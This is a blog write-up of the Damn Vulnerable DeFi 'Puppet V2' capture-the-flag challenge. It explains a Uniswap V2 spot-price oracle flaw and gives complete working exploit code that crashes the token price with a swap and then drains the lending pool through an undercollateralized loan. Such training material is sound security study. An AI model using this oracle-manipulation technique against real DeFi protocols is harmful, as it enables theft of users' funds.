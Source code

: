 # Damn Vulnerable DeFi V2 - #9 Puppet V2

<p className="text-xs text-right">February 28, 2022 by [patrickd](/about#patrickd)</p>

This is part 6 of the write-up series on Damn Vulnerable DeFi V2. Please consider attempting to solve it on your own first since it's a lot less fun after being spoiled!

---

>[**Challenge #9 - Puppet v2**](https://www.damnvulnerabledefi.xyz/challenges/9.html)
>
>The developers of the [last lending pool](https://www.damnvulnerabledefi.xyz/challenges/8.html) are saying that they've learned the lesson. And just released a new version!
>
>Now they're using a [Uniswap v2 exchange](https://docs.uniswap.org/protocol/V2/introduction) as a price oracle, along with the recommended utility libraries. That should be enough.
>
>You start with 20 ETH and 10000 DVT tokens in balance. The new lending pool has a million DVT tokens in balance. You know what to do ;)


## Code Review

As usual, we start by looking at the testcases. In [puppet-v2.challenge.js](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/test/puppet-v2/puppet-v2.challenge.js) we find a quite complex looking scenario setup script, essentially doing the following things:

1. Gives the attacker account 20 ether
2. Deploy DamnValuableToken and Wrapped Ether token contract (WETH9)
3. Deploys the UniswapRouter and uses it to create a DVT-WETH pair with 100 DVT and 10 WETH of liquidity
4. Deploys PuppetV2Pool and provides it with 1.000.000 DVT
5. Gives the attacker 10.000 DVT

There are also things happening like the initialization of a UniswapFactory contract that gets passed to the Router contract. Or the fact that addresses of WETH, DVT, the exchange pair, and the factory contracts, all get passed as construction arguments into the PuppetV2Pool - but for now we can just skip over those details since they're unlikely to play much of a role in solving the challenge.

The success conditions are simple: The pool must have 0 DVT while the attacker must have at least as much DVT as the pool initially had - meaning the attacker must steal all of the pool's token.

---

Unlike in the previous challenge, this time the Uniswap contracts are [included via the NPM package manager](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/package.json#L30-L31), so there's little doubt that they're in their original state and unlikely to be vulnerable. The [WETH9 contract](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/contracts/WETH9.sol), used for wrapping ether into the WETH ERC20 token, is a well established contract and was copied without changes as well.

Therefore, the only thing we have to look at right now is [PuppetV2Pool.sol](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/contracts/puppet-v2/PuppetV2Pool.sol), which looks quite similar to [PuppetPool.sol](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/contracts/puppet/PuppetPool.sol) from the previous challenge. The first significant change I noticed was the fact that now 3 (instead of 2) times as much ether as the borrowing value needs to be deposited as collateral.

Furthermore, as explained by the challenge description, the function determining the token price is now indeed using the official utility library of Uniswap:

```typescript
// Fetch the price from Uniswap v2 using the official libraries
function _getOracleQuote(uint256 amount) private view returns (uint256) {
    (uint256 reservesWETH, uint256 reservesToken) = UniswapV2Library.getReserves(
        _uniswapFactory, address(_weth), address(_token)
    );
    return UniswapV2Library.quote(amount.mul(10 ** 18), reservesToken, reservesWETH);
}
```

Looking at this naively would make you think along the lines of: This is the recommended way of determining the price, so this should be safe to use!

But if you actually look at the library you'll realize that the "magic" is not much different to [how price calculation worked in V1](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/contracts/puppet/PuppetPool.sol#L49-L52):

```typescript
library UniswapV2Library {
    ...
    // given some amount of an asset and pair reserves, returns an equivalent amount of the other asset
    function quote(uint amountA, uint reserveA, uint reserveB) internal pure returns (uint amountB) {
        ...
        amountB = amountA.mul(reserveB) / reserveA;
    }
    ...
}
```

Note that, since this is an internal library function it will be inlined into the PuppetV2Pool contract during compilation.


## Exploit

Just like in the [previous challenge](https://ventral.digital/posts/2022/2/23/damn-vulnerable-defi-v2-8-puppet), we again simply have to manipulate the amount of reserves: By selling as many tokens as possible we can increase the reserve amount of DVT while decreasing the amount of ether. This will effectively cause a price drop that will allow us to again take an undercollateralized loan that we don't intend to ever pay back.

Now we just have to rewrite the previous exploit to use Uniswap V2 instead of V1 for making the swap, and to use WETH instead of ether:

```javascript filename="puppet-v2.challenge.js" copy
it('Exploit', async function () {
    // Swap all attacker's initial tokens for ether to dump DVT price.
    await this.token.connect(attacker).approve(this.uniswapRouter.address, ATTACKER_INITIAL_TOKEN_BALANCE);
    await this.uniswapRouter.connect(attacker).swapExactTokensForETH(
            ATTACKER_INITIAL_TOKEN_BALANCE,                  // Swap lall of the attacker's tokens.
            0,                                               // We don't care how much ether we get back.
            [this.token.address, this.uniswapRouter.WETH()], // Swap path from token to ether.
            attacker.address,                                // Ether to attacker account.
            9999999999                                       // No deadline.
    );
    // Attacker now has about 30 ether:
    console.log('Attacker`s eth balance:', (await ethers.provider.getBalance(attacker.address)).toString());

    // Collateral required to borrow all of the pool's DVT is now about 29.5 ether.
    const collateral = await this.lendingPool.calculateDepositOfWETHRequired(POOL_INITIAL_TOKEN_BALANCE);
    console.log('Required collateral in eth:', collateral.toString());
    // Convert ether to WETH, give allowance to pool contract and use it to borrow DVT.
    await this.weth.connect(attacker).deposit({ value: collateral });
    await this.weth.connect(attacker).approve(this.lendingPool.address, collateral);
    await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE);
});
```

At least this time the Uniswap documentation was quite informative and it didn't take long to implement the changes.


## Conclusion

There's not much new to say since this challenge was very similar to the previous one. But if there's one key take away, it's that you can't blindly trust the "recommended way" of doing things. You should still try to understand what is actually happening under the hood, what drawbacks it has and whether you're actually using it as intended.